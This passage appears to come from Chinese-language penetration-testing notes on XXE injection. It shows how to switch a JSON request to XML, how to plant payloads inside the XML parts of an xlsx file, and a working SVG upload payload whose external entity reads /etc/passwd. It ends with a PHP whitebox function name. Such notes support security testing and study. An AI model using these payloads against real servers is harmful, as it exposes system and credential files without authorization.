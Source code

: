 - 数据包请求头中Context-Type的值为application/json，更改为application/xml或者text/xml，观察响应包是否会解析xml，比如返回的报错信息中显示后端有处理xml的组件，然后插入payload测试

​	![image-20241123212551298](../..\source\images\image-20241123212551298.png)

#### xlsx，svg等文件上传功能点

- 利用EXCEL进行XXE攻击

  解压xlsx文件，在[Content_Types].xml中插入payload

  ![image-20241123213230871](../..\source\images\image-20241123213230871.png)

  然后再重新打包为1.xlsx

  ```php
  # 也可以尝试在如下xml文件中插入payload
  xl/workbook.xml
  xl/worksheets/sheet1.xml
  _rels/.rels
  xl/_rels/workbook.xml.rels
  xl/theme/theme1.xml
  _rels/.rels
  docProps/app.xml
  docProps/core.xml
  xl/_rels/workbook.xml.rels
  xl/styles.xml
  xl/workbook.xml
  ```

  

- 上传svg，docx等xml格式的文件进行攻击

  1.svg

  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE note [
  <!ENTITY file SYSTEM "file:///etc/passwd" >
  ]>
  <svg height="100" width="1000">
    <text x="10" y="20">&file;</text>
  </svg>
  ```

- java--jar协议解压压缩包





### 白盒相关函数

#### php

```php
simplexml_import_dom()
```
